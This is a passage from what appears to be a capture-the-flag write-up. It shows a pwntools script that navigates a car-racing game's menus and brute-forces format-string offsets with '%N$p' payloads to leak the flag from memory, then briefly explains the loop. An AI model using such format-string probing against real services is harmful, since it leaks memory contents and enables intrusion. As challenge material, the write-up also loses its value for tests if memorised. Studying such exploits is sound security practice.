 ```python

	# insert name
	print(s.recvuntil(b": ").decode())
	s.sendline(b"abc")

	# insert nickname
	print(s.recvuntil(b": ").decode())
	s.sendline(b"abc")

	# first selection to choose the car
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"2")

	# second selection to choose which car to use
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"2")

	# third selection to choose "highway battle"
	print(s.recvuntil(b"> ").decode())
	s.sendline(b"1")

	# abuse the format string vulnerability by sending "%p"
	print(s.recvuntil(b"> ").decode())
	log.info(f"Sending `%{count}$p`".encode())
	s.sendline(f"%{count}$p".encode())

	# receive the line before the quote
	print(s.recvline().decode())

	# receive the quote line
	print(s.recvline().decode())

	# receive the output after the quote line
	result = s.recvline().decode()
	print(f"result = {result}")

	if close_bracket_format in result:
		is_found = True
	else:
		count += 1

	s.close()

log.info(f"Found in {count}")
log.info(f"String: {result}")
```

The python script above, is used to brute-force to get where is the position of the last part of the flag. Since the flag will always ends with a closed curly brace `"}"`. We can use it as the if condition.
